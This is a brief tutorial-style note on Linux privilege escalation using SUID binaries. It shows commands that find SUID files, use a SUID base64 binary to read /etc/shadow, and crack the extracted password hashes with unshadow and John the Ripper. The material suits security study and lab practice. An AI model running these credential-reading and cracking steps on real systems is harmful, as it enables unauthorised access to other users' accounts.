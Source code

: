 # SUID

#### General method to find files with SUID bit

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

If there's a particular binary found that has the `SUID` bit set, refer to [https://gtfobins.github.io/](https://gtfobins.github.io/) to potentially find an exploit.



### Example

Suppose the binary `/usr/bin/base64` is found to contain the SUID bit. This can be exploited to view the contents of the `/etc/shadow`file.

```bash
$ base64 /etc/shadow | base64 -d > shadow.txt
$ cat /etc/passwd > passwd.txt
```

The `unshadow` command can be used  on the `shadow.txt` and `passwd.txt` files to create a file that is crack-able by John the ripper.

```bash
$ unshadow passwd.txt shadow.txt > password.txt
$ john --wordlist=[wordlist] password.txt
...
```

Subsequently, the password for a user with more privileges than the current one may be cracked. This will allow us to access that account to further escalate our privileges. For example, the cracked user may have `SUID` bits set, or sudo privileges for certain binaries that may contain exploits to access the root shell.
